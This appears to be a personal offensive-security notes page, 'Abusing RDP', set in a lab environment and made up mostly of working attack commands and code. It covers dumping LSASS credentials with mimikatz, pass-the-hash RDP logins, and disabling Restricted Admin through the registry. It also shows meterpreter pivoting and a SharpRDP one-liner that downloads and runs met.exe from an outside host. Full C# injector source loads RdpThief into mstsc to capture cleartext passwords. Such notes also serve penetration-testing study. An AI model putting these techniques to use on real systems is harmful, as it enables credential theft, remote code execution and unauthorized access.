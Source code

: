 ```yaml
---
layout:     post
author:     0x5c4r3
type: docs
permalink: Abusing_RDP
---
```


<span style="font-size: 35px; color:red"><b>Abusing RDP</b></span>
&nbsp;
When an RDP connection is created, the NTLM hashes will reside in memory for the duration of the session.

When there's an active RDP session, you can dump the creds with _mimikatz_ like so:
```shell
privilege::debug
!+
!processprotect /process:lsass.exe /remove
sekurlsa::logonpasswords
```

---

To pass the NTLM hash of another user to get RDP session:
```shell
privilege::debug
sekurlsa::pth /user:admin /domain:corp1 /ntlm:2892D26CDF84D7A70E2EB3B9F05C425E /run:"mstsc.exe /restrictedadmin"
```
This should open a RDP prompt saying "Your Windows logon credentials will be used to connect"

If you see "Account restrictions are preventing...", probably Restricted Admin Mode is on, so run:
```
sekurlsa::pth /user:admin /domain:corp1 /ntlm:2892D26CDF84D7A70E2EB3B9F05C425E /run:powershell
```
That will open a powershell, then type these commands:
```powershell
Enter-PSSession -Computer appsrv01
New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name DisableRestrictedAdmin -Value 0
Exit
```
The restricted admin mode setting is updated instantly and we can once again use it to gain access to the target.

<span style="font-size: 25px; color:white"><b>RDP//XfreeRDP</b></span>
You can do all this stuff also with xfreerdp:
```shell
xfreerdp /u:admin /pth:2892D26CDF84D7A70E2EB3B9F05C425E /v:192.168.120.6 /cert-ignore
```

---

<span style="font-size: 25px; color:white"><b>Reverse RDP Proxy</b></span>
Once already gotten the revshell on meterpreter, put it in background and run:
```shell
use multi/manage/autoroute
set session 1
exploit
```
and then
```shell
use auxiliary/server/socks4a
set srvhost 127.0.0.1
exploit -j
```
The autoroute module creates a reverse tunnel and allows us to direct network traffic into the appropriate subnet.

<span style="font-size: 25px; color:white"><b>RDP as a console</b></span>

RDP based on mstsc.exe which is based on mstscax.dll (which perform authentication). sharpRDP allows the execution of code through the SendKeys function.

To issue single commands through RDP without an actual RDP session open:
```shell
sharprdp.exe computername=appsrv01 command="powershell (New-Object System.Net.WebClient).DownloadFile('http://192.168.119.120/met.exe', 'C:\Windows\Tasks\met.exe'); C:\Windows\Tasks\met.exe" username=corp1\dave password=lab
```

---
<span style="font-size: 25px; color:white"><b>Get cleartext credentials with an open RDP Session</b></span>

Application similar to a keylogger for RDP
```cs
using System;
using System.Diagnostics;
using System.Net;
using System.Runtime.InteropServices;
using System.Text;
using System.Threading;

namespace Inject
{
    class Program
    {
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int processId);

        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll")]
        static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

        [DllImport("kernel32", CharSet = CharSet.Ansi, ExactSpelling = true, SetLastError = true)]
        static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

        [DllImport("kernel32.dll", CharSet = CharSet.Auto)]
        public static extern IntPtr GetModuleHandle(string lpModuleName);

		static void Main(string[] args)
		{
		  String dllName = "C:\\Tools\\RdpThief.dll";
		  while(true)
		  {
		    Process[] mstscProc = Process.GetProcessesByName("mstsc");
		    if(mstscProc.Length > 0)
		    {
		      for(int i = 0; i < mstscProc.Length; i++)
		      {
		        int pid = mstscProc[i].Id;

		        IntPtr hProcess = OpenProcess(0x001F0FFF, false, pid);
		        IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);
		        IntPtr outSize;
		        Boolean res = WriteProcessMemory(hProcess, addr, Encoding.Default.GetBytes(dllName), dllName.Length, out outSize);
		        IntPtr loadLib = GetProcAddress(GetModuleHandle("kernel32.dll"), "LoadLibraryA");
		        IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, loadLib, addr, 0, IntPtr.Zero);
		      }
		    }
                   
		    Thread.Sleep(1000);
		    }
		}
	}
}
```
Compile it as  <span style="color:red">exploit.exe</span> and run:
```shell
mstsc.exe
exploit.exe
type C:\Users\dave\AppData\Local\Temp\6\data.bin
```
